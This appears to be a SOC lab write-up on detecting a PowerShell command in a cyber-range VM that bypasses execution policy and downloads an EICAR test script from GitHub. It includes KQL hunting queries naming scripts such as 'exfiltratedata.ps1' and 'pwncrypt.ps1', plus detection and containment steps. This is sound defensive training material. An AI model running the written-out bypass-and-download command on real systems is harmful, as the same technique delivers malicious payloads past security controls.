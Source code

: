 # Detection and Analysis – VM PowerShell Script Execution

## Incident Overview

* **Scenario:** Virtual machine (`th--dp--win11`) executed a suspicious PowerShell command.
* **Command Observed:**

  ```powershell
  powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest `
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 `
  -OutFile C:\programdata\eicar.ps1
  ```
* **Initial Finding:** The command downloaded a file named `eicar.ps1` from GitHub to the machine.
* **Significance:**

  * **ExecutionPolicy Bypass** → indicates intentional circumvention of PowerShell security restrictions.
  * **Invoke-WebRequest** → common TTP for malicious payload delivery (MITRE ATT\&CK: **T1105 – Ingress Tool Transfer**, **T1059 – Command & Scripting Interpreter**).

---

## Investigation Actions

### 1. Validate the Suspicious File

* **File Identified:** `eicar.ps1`
* **Content:** Harmless EICAR test file (used for simulating malware).
* **Note:** In real incidents, files should be “defanged” in notes (e.g., `hxxp://...` instead of `http://...`) to prevent accidental execution.

---

### 2. User Verification

* Contacted the affected user on `th--dp--win11`.
* Goal: Confirm timeline of actions and determine if execution was intentional or accidental.
* Outcome: Pending user feedback (would align with forensic timeline).

---

### 3. Endpoint Process Analysis

* **Query – Local Device (scoped):**

  ```kql
  let TargetHostname = "th--dp--win11"; 
  let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); 
  DeviceProcessEvents
  | where DeviceName == TargetHostname
  | where FileName == "powershell.exe"
  | where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
  | order by TimeGenerated
  | project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
  ```
* **Result:** 2 events found on the host (`th--dp--win11`).

---

### 4. Enterprise-Wide Query

* **Query – Expanded Scope (all devices):**

  ```kql
  let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); 
  DeviceProcessEvents
  | where FileName == "powershell.exe"
  | where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
  | order by TimeGenerated
  | project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
  ```
* **Result:** 75 executions across multiple devices.
* **Analysis:** Widespread execution confirmed → potential lateral spread or centralized distribution method.

---

### 5. Escalation & Triage

* Passed `eicar.ps1` to **Malware Reverse Engineering** team for validation (simulated).
* SOC decision: Treat as **widespread malware distribution event**.

---

## Detection Findings

* **Affected Hosts:** Multiple (75 devices).
* **Method:** PowerShell execution with ExecutionPolicy Bypass.
* **Payload:** EICAR test script (`eicar.ps1`).
* **Risk:** High – if malicious, this technique would bypass controls and allow attacker persistence/command execution.

---

## Immediate Next Steps

1. **Isolate affected machines** (containment).
2. **Run antivirus/EDR scans** on each device.
3. **Block outbound PowerShell web requests** for non-admin users.
4. **Update local policies:**

   * Restrict non-privileged users from running `.ps1` scripts.
   * Enforce stricter ExecutionPolicy for endpoints.
5. **Awareness:**

   * Affected users to complete follow-up **KnowBe4 training**.
   * Broader organization to receive updated awareness module on “script-based attacks.”

---

## Lessons for Future Detection

* Create **custom Sentinel rule** for:

  * `powershell.exe` + `-ExecutionPolicy Bypass`
  * `Invoke-WebRequest` or `Invoke-Expression` usage.
* Enhance hunting queries to include:

  * Frequency analysis of script execution.
  * New file creation in sensitive directories (e.g., `C:\programdata`).

---
